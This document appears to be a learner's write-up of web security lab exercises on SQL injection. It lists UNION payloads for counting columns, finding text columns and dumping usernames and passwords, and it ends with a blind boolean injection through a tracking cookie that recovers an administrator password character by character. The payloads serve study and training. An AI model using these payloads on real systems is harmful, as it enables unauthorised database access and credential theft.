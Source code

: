 It has 3 columns, we solved it by injecting:
`Gifts' UNION SELECT NULL,NULL,NULL--`

---
### SQL injection UNION attack, finding a column containing text

This is a union select attack. After you find a vulnerable parameter by injecting `'`, you start building you query. It will be like this `'UNION SELECT NULL-- -`
And you will add NULL parameters to determine the number of columns. 
After you find that value, in our case, 3, you will replace every "NULL" for the value the lab give you, like this:
`'UNION SELECT NULL,'stringValue',NULL-- -`

---
### SQL injection UNION attack, retrieving data from other tables

`'UNION SELECT table_names, NULL FROM information_schema.tables`
`'UNION SELECT column_names, NULL FROM information_schema.columns WHERE table_name='users'`
`'UNION SELECT username, password FROM users`

---
### SQL injection UNION attack, retrieving multiple values in a single column

We already know there is a "users" table, and columns "username" and "password". So we can concatenate with the ||:

`'UNION SELECT NULL,username|| "~" ||password FROM users-- -`

---
### Blind SQL injection with conditional responses

Blind SQL. In the request '/filter?category=' modify the cookie  TrakingId, and add `' AND '1'='2`. Send it, and you'll see the "Welcome Back!" message **is not showing**. 

So, when you send a valid query, the "Welcome Back!" message shows, and when that condition is not TRUE, the message dissapear.

`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a` This to test there is a table called "users", and then this to confirm there is an "administrator" user:
`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`. 

Now, **this is important**, to get the length of the password, we'll do it this way:
`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
Manually, or with burp intruder, you'll find the condition is true until 20. Si it's 20 characters length.

After that, you will need to see which character matches, and you can build the password one character at a time. With this query:
`TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
The ITERATOR value will be the one you will increase until found all the password!
